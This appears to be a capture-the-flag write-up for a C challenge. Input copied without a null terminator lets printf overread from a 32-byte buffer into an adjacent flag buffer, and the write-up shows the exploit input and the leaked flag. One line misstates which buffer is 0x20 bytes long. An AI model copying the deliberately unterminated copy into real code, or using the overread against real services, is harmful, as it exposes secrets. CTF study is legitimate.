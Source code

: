 # color

This challenge provided the following `color.c` file:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

char FAVORITE_COLOR[0x20];
char FLAG[0x28];

void parse_answer(char *dst, char *src) {
    int i = 0;
    while (src[i] != '\n') i++;
    memcpy(dst, src, i);
}

int main() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);

    memset(FAVORITE_COLOR, 0, 0x20);
    char *envFlag = getenv("FLAG");
    if (envFlag) {
        strcpy(FLAG, envFlag);
    } else {
        strcpy(FLAG, "bctf{fake_flag}");
    }

    char buf[0x60];
    printf("What's your favorite color? ");
    fgets(buf, 0x60, stdin);
    parse_answer(FAVORITE_COLOR, buf);

    printf("%s!?!? Mid af color\n", FAVORITE_COLOR);

    return 0;
}
```

The vulnerability with this comes from how `c` stores strings.

All strings in `c` are null-terminated, meaning after the contents of the string is a byte with the value `0`. Since the flag is of length `0x20`,
if we write `32` of any byte, we will overwrite that null byte and the `printf` statement at the end will print the contents of the flag.

Here's that interaction:

```
What's your favorite color? 12345678123456781234567812345678
12345678123456781234567812345678bctf{1_d0n7_c4r3_571ll_4_m1d_c010r}!?!? Mid af color
```

Giving the flag `bctf{1_d0n7_c4r3_571ll_4_m1d_c010r}`
